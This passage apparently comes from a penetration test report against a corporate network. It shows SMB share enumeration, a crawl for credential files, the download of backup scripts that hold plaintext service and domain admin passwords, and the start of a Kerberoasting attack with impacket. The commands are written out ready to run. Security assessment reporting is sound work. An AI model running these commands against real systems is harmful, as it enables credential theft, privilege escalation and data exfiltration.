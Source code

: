 **Share Enumeration:**

```bash
# Authenticated share listing
smbmap -H 10.50.3.50 -u mrodriguez -p 'ITAdmin@2024!' -R

# Shares discovered:
# Finance$ - Hidden share containing financial documents
# HR_Confidential - Employee records and payroll
# IT_Admin - Scripts and configuration files
# Backups - System backups
```

**Sensitive Data Discovery:**

```bash
# Search for interesting files
crackmapexec smb 10.50.3.50 -u mrodriguez -p 'ITAdmin@2024!' --spider Finance$ HR_Confidential IT_Admin --pattern password,credential,confidential

# Download sensitive files
smbclient \\\\10.50.3.50\\IT_Admin -U mrodriguez
smb: \> get Scripts\backup_credentials.txt
smb: \> get Scripts\sql_connection.ps1
```

**Critical Findings in IT_Admin Share:**

**File: backup_credentials.txt**
```
SQL Service Account: sql_service
Password: SQLSvc#2024!Backup

Domain Admin Account (Emergency): da_emergency  
Password: EmergencyDA!2024
```

**File: sql_connection.ps1**
```powershell
$SQLUser = "sql_service"
$SQLPass = "SQLSvc#2024!Backup" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential($SQLUser, $SQLPass)
```

**Data Exfiltration Proof of Concept:**
- Employee database: 1,247 records containing PII
- Financial reports: Q1-Q4 2024 revenue data
- Customer information: 15,000+ customer records
- Backup scripts containing additional credentials

### 2.4 Phase 4: Privilege Escalation

#### 2.4.1 Domain Privilege Escalation

**Kerberoasting Attack:**

```bash
# Request service tickets with discovered domain user credentials
impacket-GetUserSPNs corp.vanguardfs.local/jthompson:'Summer2024!' -dc-ip 10.50.2.11 -request -outputfile kerberoast_hashes.txt

# Service accounts discovered:
# - sql_service (MSSQLSvc/VFS-FS-01.corp.vanguardfs.local:1433)
# - backup_admin (BackupExec/VFS-FS-01.corp.vanguardfs.local)
```
